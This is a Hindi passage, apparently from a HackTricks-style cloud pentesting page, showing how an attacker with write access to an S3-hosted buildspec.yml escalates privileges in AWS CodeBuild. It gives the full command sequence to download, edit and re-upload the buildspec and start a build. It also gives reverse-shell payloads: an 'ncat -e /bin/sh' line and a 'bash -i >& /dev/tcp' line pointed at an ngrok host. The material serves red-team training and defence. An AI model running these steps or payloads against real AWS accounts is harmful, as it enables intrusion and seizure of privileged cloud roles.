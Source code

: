 ध्यान दें: उच्चतर अधिकार वाले आशा है कि कोडबिल्ड कार्यकर्ता के पास एक भिन्न भूमिका हो, जो हमलावर की भूमिका से अधिक अधिकारशाली हो।
```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```
आप एक **builspec** जैसी कुछ इस तरह की चीज़ का उपयोग कर सकते हैं ताकि आपको एक **reverse shell** मिले:

{% code title="buildspec.yml" %}
```yaml
version: 0.2

phases:
build:
commands:
- bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
{% endcode %}

**प्रभाव:** AWS CodeBuild कार्यकर्ता द्वारा उपयोग किए जाने वाले भूमिका को सीधे बढ़ाना जो आम तौर पर उच्च विशेषाधिकारों वाला होता है।

{% hint style="warning" %}
ध्यान दें कि बिल्डस्पेक zip प्रारूप में उम्मीद किया जा सकता है, इसलिए एक हमलावर को डाउनलोड, अनज़िप, `buildspec.yml` को रूट निर्देशिका से संशोधित करने, फिर से ज़िप करने और अपलोड करने की आवश्यकता होगी।
{% endhint %}

अधिक विवरण यहाँ मिल सकते हैं [यहाँ](https://www.shielder.com/blog/2023/07/aws-codebuild--s3-privilege-escalation/).

**संभावित प्रभाव:** संलग्न AWS Codebuild भूमिकाओं को सीधे बढ़ाना।

<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>
